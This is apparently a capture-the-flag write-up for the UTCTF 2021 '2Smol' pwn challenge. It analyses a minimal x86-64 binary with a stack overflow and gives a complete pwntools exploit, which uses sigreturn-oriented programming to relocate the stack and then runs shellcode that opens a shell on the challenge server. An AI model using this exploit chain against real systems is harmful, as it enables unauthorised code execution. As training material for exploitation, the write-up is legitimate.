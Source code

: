 # UTCTF 2021

## 2Smol

> 910
>
> I made this binary 2smol.
> 
> by `hukc`
>
> [smol](smol)

Tags: _pwn_ _x86-64_ _bof_ _srop_


## Summary

> See [Some Really Ordinary Program](https://github.com/datajerk/ctf-write-ups/tree/master/nahamconctf2021/some-really-ordinary-program) for a nearly an identical writeup.

We have nearly nothing to work with but a `read` and `syscall` gadget; using the return value from `read` we can use that to set `rax` so that we can use _srop_.

## Analysis

### Checksec

```
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x400000)
    RWX:      Has RWX segments
```

No mitigations, choose your own adventure--_assuming you can find the bits you need._

### <strike>Decompile with Ghidra</strike> Disassemble with `objdump`

```assembly
0000000000401000 <_start>:
  401000:	e8 08 00 00 00       	call   40100d <main>
  401005:	b8 3c 00 00 00       	mov    eax,0x3c
  40100a:	0f 05                	syscall
  40100c:	c3                   	ret

000000000040100d <main>:
  40100d:	55                   	push   rbp
  40100e:	48 89 e5             	mov    rbp,rsp
  401011:	48 83 ec 08          	sub    rsp,0x8
  401015:	48 8d 7d f8          	lea    rdi,[rbp-0x8]
  401019:	e8 05 00 00 00       	call   401023 <_read>
  40101e:	48 89 ec             	mov    rsp,rbp
  401021:	5d                   	pop    rbp
  401022:	c3                   	ret

0000000000401023 <_read>:
  401023:	55                   	push   rbp
  401024:	48 89 e5             	mov    rbp,rsp
  401027:	48 83 ec 08          	sub    rsp,0x8
  40102b:	48 89 fe             	mov    rsi,rdi
  40102e:	bf 00 00 00 00       	mov    edi,0x0
  401033:	ba 00 02 00 00       	mov    edx,0x200
  401038:	b8 00 00 00 00       	mov    eax,0x0
  40103d:	0f 05                	syscall
  40103f:	48 89 ec             	mov    rsp,rbp
  401042:	5d                   	pop    rbp
  401043:	c3                   	ret
```

Yep, that's all of it.  `main` allocates 8 bytes on the stack, and then calls `read` with said stack location, however `read` sets `rdx` to `0x200` creating a buffer overflow.  Send anything over 16 bytes (stack + `push rpb`) and you'll segfault.

That's all there is folks.  Not a lot here.  No GOT, very few gadgets, no libc, etc..., total _srop_ fodder.

```
0x0000000000400000 0x0000000000401000 0x0000000000000000 r-x smol
0x0000000000401000 0x0000000000402000 0x0000000000001000 r-x smol
0x0000000000402000 0x0000000000403000 0x0000000000000000 rwx [heap]
0x00007ffff7ffa000 0x00007ffff7ffd000 0x0000000000000000 r-- [vvar]
0x00007ffff7ffd000 0x00007ffff7fff000 0x0000000000000000 r-x [vdso]
0x00007ffffffde000 0x00007ffffffff000 0x0000000000000000 rwx [stack]
0xffffffffff600000 0xffffffffff601000 0x0000000000000000 r-x [vsyscall]
```

Before getting into the _srop_ details, lets look at the memory map.  Other than the stack, there is a 4K page of memory (the heap) that is also `RWX` at `0x402000`.  This is something we both have and _know_.

The attack is pretty simple, use `read` to _read_ in `0xf` bytes, so that `rax` is `0xf` (rt_sigreturn syscall).  Then call `syscall` followed by our sigreturn frame.

That frame will change `rsp` to the middle of page `0x402000` (remember stacks grow _down_ in address space), and then set `rip` to `main`.  This will basically start us all over again, but this time we know the stack address because we _set_ it.

Since we can _read_ and we know _where_ we will be storing that input, we can just send some shellcode to do the rest.


## Exploit

```python
#!/usr/bin/env python3

from pwn import *

binary = context.binary = ELF('./smol')
binary.symbols['main'] = 0x40100d

if args.REMOTE:
    p = remote('pwn.utctf.live', 9998)
else:
    p = process(binary.path)
```

Standard pwntools header with a symbol added for `main`.

```python
syscall = next(binary.search(asm('syscall')))
stack = 0x4027f8

frame = SigreturnFrame()
frame.rsp = stack
frame.rip = binary.sym.main
```

Find a syscall gadget and setup the location of our new stack in the middle of page `0x402000`, then define our rt_sigreturn frame with `rsp` pointing to our new stack and `rip` pointing to `main`


```python
# overflow buffer
# get control of RIP
# call the read function to get 0xf in rax for syscall
# sigret
payload  = b''
payload += 16 * b'A'
payload += p64(binary.sym.main)
payload += p64(syscall)
payload += bytes(frame)

p.send(payload)
time.sleep(.1)
```

The payload just needs to fill up the `8` byte buffer plus 8 bytes for the `push rbp`, then call `main` followed by `syscall` and our frame.

> The .1 sleep is required to allow `read` to exit before our next `read` attack.

```python
# with read called, get 0xf in rax
p.send(constants.SYS_rt_sigreturn * b'A')
time.sleep(.1)
```

With the payload now running we need to send `0xf` bytes so that `read` will return with `0xf` in `rax`.  After that the rt_sigreturn syscall will kick in and update all the registers with values from our frame, including the new stack (`rsp`) and where we should start executing again (`rip`).

> The .1 sleep is required to allow `read` to exit before our next `read` attack.

```python
# new stack that we know address of and its NX
# just put in some shell code and call it
payload  = b''
payload += 16 * b'A'
payload += p64(stack + 8)
payload += asm(shellcraft.sh())

p.send(payload)
p.interactive()
```

Here we are again, at the beginning, all that has changed is we _know_ where the stack is.  This time set the return address with the location of our shellcode to be appended at the end.

Output:

```bash
# ./exploit.py REMOTE=1
[*] '/pwd/datajerk/utctf2021/smol/smol'
    Arch:     amd64-64-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x400000)
    RWX:      Has RWX segments
[+] Opening connection to pwn.utctf.live on port 9998: Done
[*] Switching to interactive mode
$ id
uid=1000(srop) gid=1000(srop) groups=1000(srop)
$ cat flag.txt
utflag{srop_xd}
```

